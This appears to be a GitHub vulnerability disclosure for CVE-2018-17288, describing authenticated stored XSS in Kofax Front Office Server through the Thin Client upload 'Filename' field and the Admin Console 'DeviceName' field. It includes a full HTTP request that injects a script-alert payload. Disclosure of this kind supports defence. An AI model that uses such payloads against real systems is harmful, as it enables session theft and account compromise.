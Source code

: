 # CVE-2018-17288-XSS-Kofax
Kofax Front Office Server version 4.1.1.11.0.5212 (both Thin Client and Administration Console) suffers from multiple authenticated stored XSS vulnerabilities via the (1) "Filename" field in /Kofax/KFS/ThinClient/document/upload/ - (Thin Client) or (2) "DeviceName" field in /Kofax/KFS/Admin/DeviceService/device/ - (Administration Console)



### XSS in Kofax Front Office Server Thin Client:
<img src="XSS1.png">

<br />

```
POST /Kofax/KFS/ThinClient/document/upload/ HTTP/1.1
Host: xxxxxx.xxxxxxx.net
Connection: close
Content-Length: 678
Origin: https://***.*******.***
X-Requested-With: ShockwaveFlash/29.0.0.140
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.170 Safari/537.36 OPR/53.0.2907.68
Content-Type: multipart/form-data; boundary=----------cH2Ef1GI3gL6Ij5gL6GI3Ef1ae0GI3
Accept: */*
Referer: https://***.*******.net/Kofax/KFS/ThinClient/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: KFS_AUTH_THINCLIENT=06f35c28-d832-4072-9ba2-3e1246b12b4d 
------------cH2Ef1GI3gL6Ij5gL6GI3Ef1ae0GI3 
Content-Disposition: form-data; name="Filename"
<script>alert(1234)</script>.txt
------------cH2Ef1GI3gL6Ij5gL6GI3Ef1ae0GI3 
Content-Disposition: form-data; name="pageIndex"
1
------------cH2Ef1GI3gL6Ij5gL6GI3Ef1ae0GI3 
Content-Disposition: form-data; name="sessionID"
06f35c28-d832-4072-9ba2-3e1246b12b4d
------------cH2Ef1GI3gL6Ij5gL6GI3Ef1ae0GI3 
Content-Disposition: form-data; name="Filedata"; filename="test.txt" 
<--SNIP-->
```

<br />

<img src="XSS2.png">
<br />
<br />

### XSS in Kofax Front Office Server Administration Console:

<br />
Add a new device with a malitious code in “Device Name” field:
<img src="XSS-device.png">

<br />
Deploy the device:
<img src="XSS3.png">

<br />


<img src="XSS4.png">

<br />


<img src="XSS5.png">

<br />
